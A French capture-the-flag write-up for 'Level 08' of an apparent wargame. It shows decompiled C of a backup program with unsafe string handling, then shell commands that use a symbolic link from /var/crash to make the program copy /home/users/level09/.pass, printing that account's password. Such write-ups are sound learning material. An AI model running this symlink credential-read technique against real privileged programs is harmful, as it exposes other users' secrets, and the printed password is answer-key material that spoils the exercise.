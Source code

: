 # **Level 08**

Code decompiler,
```
void log_wrapper(FILE *param_1,char *param_2,char *param_3)

{
  char cVar1;
  size_t sVar2;
  ulong uVar3;
  ulong uVar4;
  char *pcVar5;
  long in_FS_OFFSET;
  byte bVar6;
  undefined8 local_120;
  char local_118 [264];
  long local_10;
  
  bVar6 = 0;
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_120 = param_1;
  strcpy(local_118,param_2);
  uVar3 = 0xffffffffffffffff;
  pcVar5 = local_118;
  do {
    if (uVar3 == 0) break;
    uVar3 = uVar3 - 1;
    cVar1 = *pcVar5;
    pcVar5 = pcVar5 + (ulong)bVar6 * -2 + 1;
  } while (cVar1 != '\0');
  uVar4 = 0xffffffffffffffff;
  pcVar5 = local_118;
  do {
    if (uVar4 == 0) break;
    uVar4 = uVar4 - 1;
    cVar1 = *pcVar5;
    pcVar5 = pcVar5 + (ulong)bVar6 * -2 + 1;
  } while (cVar1 != '\0');
  snprintf(local_118 + (~uVar4 - 1),0xfe - (~uVar3 - 1),param_3);
  sVar2 = strcspn(local_118,"\n");
  local_118[sVar2] = '\0';
  fprintf(local_120,"LOG: %s\n",local_118);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    // WARNING: Subroutine does not return
    __stack_chk_fail();
  }
  return;
}



undefined8 main(int param_1,undefined8 *param_2)

{
  char cVar1;
  int __fd;
  int iVar2;
  FILE *pFVar3;
  FILE *__stream;
  ulong uVar4;
  undefined8 *puVar5;
  long in_FS_OFFSET;
  byte bVar6;
  char local_79;
  undefined8 local_78;
  undefined2 local_70;
  char local_6e;
  long local_10;
  
  bVar6 = 0;
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_79 = -1;
  if (param_1 != 2) {
    printf("Usage: %s filename\n",*param_2);
  }
  pFVar3 = fopen("./backups/.log","w");
  if (pFVar3 == (FILE *)0x0) {
    printf("ERROR: Failed to open %s\n","./backups/.log");
                    // WARNING: Subroutine does not return
    exit(1);
  }
  log_wrapper(pFVar3,"Starting back up: ",param_2[1]);
  __stream = fopen((char *)param_2[1],"r");
  if (__stream == (FILE *)0x0) {
    printf("ERROR: Failed to open %s\n",param_2[1]);
                    // WARNING: Subroutine does not return
    exit(1);
  }
  local_78._0_1_ = '.';
  local_78._1_1_ = '/';
  local_78._2_1_ = 'b';
  local_78._3_1_ = 'a';
  local_78._4_1_ = 'c';
  local_78._5_1_ = 'k';
  local_78._6_1_ = 'u';
  local_78._7_1_ = 'p';
  local_70._0_1_ = 's';
  local_70._1_1_ = '/';
  local_6e = '\0';
  uVar4 = 0xffffffffffffffff;
  puVar5 = &local_78;
  do {
    if (uVar4 == 0) break;
    uVar4 = uVar4 - 1;
    cVar1 = *(char *)puVar5;
    puVar5 = (undefined8 *)((long)puVar5 + (ulong)bVar6 * -2 + 1);
  } while (cVar1 != '\0');
  strncat((char *)&local_78,(char *)param_2[1],99 - (~uVar4 - 1));
  __fd = open((char *)&local_78,0xc1,0x1b0);
  if (__fd < 0) {
    printf("ERROR: Failed to open %s%s\n","./backups/",param_2[1]);
                    // WARNING: Subroutine does not return
    exit(1);
  }
  while( true ) {
    iVar2 = fgetc(__stream);
    local_79 = (char)iVar2;
    if (local_79 == -1) break;
    write(__fd,&local_79,1);
  }
  log_wrapper(pFVar3,"Finished back up ",param_2[1]);
  fclose(__stream);
  close(__fd);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    // WARNING: Subroutine does not return
    __stack_chk_fail();
  }
  return 0;
}
```
En regardant dans le `dossier courant` du level08, on voit en plus de l'executable, un `dossier backups` avec un fichier .log.
en executant le code, on voit qu'il attend un fichier en argument,
```
level08@OverRide:~$ ./level08 
Usage: ./level08 filename
ERROR: Failed to open (null)
```
Si on essaye de lui passer le fichier .log en argument,
```
level08@OverRide:~$ ./level08 backups/.log 
ERROR: Failed to open ./backups/backups/.log
level08@OverRide:~$ cat backups/.log
LOG: Starting back up: backups/.log
```
On voit qu'il ecrit quand meme dedant, essayons avec un autre fichier.
```
level08@OverRide:~$ ./level08 /var/crash/test
ERROR: Failed to open ./backups//var/crash/test
level08@OverRide:~$ cat backups/.log
LOG: Starting back up: /var/crash/test
```
Encore une fois, l'erreur se retrouve dans le fichier .log.
En lisant le code on voit que le `premier fopen` se fait sur le fichier `.log` et ensuite sur l'`argument` passe en parametre,
Or avec les precedent test, on en conclu que le programme accepte seulement les fichier de son repertoire courant et qu'il n'aime pas les path absolu.
```
level08@OverRide:~$ cd /var/crash
level08@OverRide:/var/crash$ touch test
level08@OverRide:/var/crash$ /home/users/level08/./level08 test 
ERROR: Failed to open ./backups/.log
```
Ici on voit qu'il ne trouve pas le fichier .log.
Essayons donc depuis /var/crash d'ouvrir le fichier .log avec le programme.
Utilisons un `lien symbolique` vers le `dossier backups` et relancons le programme avec test,
```
level08@OverRide:/var/crash$ ln -s /home/users/level08/backups backups
level08@OverRide:/var/crash$ ll
total 0
drwxrwsrwt 1 root    whoopsie  80 Feb 16 13:53 ./
drwxr-xr-x 1 root    root     120 Oct  2  2016 ../
lrwxrwxrwx 1 level08 whoopsie  27 Feb 16 13:53 backups -> /home/users/level08/backups/
-rw-rw-r-- 1 level08 whoopsie   0 Feb 16 13:48 test
```
Execution,
```
level08@OverRide:/var/crash$ /home/users/level08/./level08 test 
level08@OverRide:/var/crash$ ll /home/users/level08/backups/
total 4
drwxrwx---+ 1 level09 users    80 Feb 16 13:53 ./
dr-xr-x---+ 1 level08 level08 100 Oct 19  2016 ../
-rwxrwx---+ 1 level09 users    55 Feb 16 13:53 .log*
-r--r-----+ 1 level09 users     0 Feb 16 13:53 test

```
Ok, maintenant on sait comment ecrire dans le dossier backups,
Essayons donc maintenant de passer un fichier plus sensible en parametre, comme le password de level09,
toujours en passant par un `symlink`.
```
level08@OverRide:/var/crash$ ln -s /home/users/level09/.pass pass
level08@OverRide:/var/crash$ ll
total 0
drwxrwsrwt 1 root    whoopsie 100 Feb 16 13:56 ./
drwxr-xr-x 1 root    root     120 Oct  2  2016 ../
lrwxrwxrwx 1 level08 whoopsie  27 Feb 16 13:53 backups -> /home/users/level08/backups/
lrwxrwxrwx 1 level08 whoopsie  25 Feb 16 13:56 pass -> /home/users/level09/.pass
-rw-rw-r-- 1 level08 whoopsie   0 Feb 16 13:48 test
```
Ensuite, executons le programme avec le fichier pass.
```
level08@OverRide:/var/crash$ /home/users/level08/./level08 pass
level08@OverRide:/var/crash$ cat backups/pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
Essayons le password,
```
level08@OverRide:/var/crash$ su level09
Password: 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   /home/users/level09/level09level08@OverRide:/var/crash$ su level09
Password: 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   /home/users/level09/level09
```
> ### NEXT : [Level 09](/level09/resources/README.md)
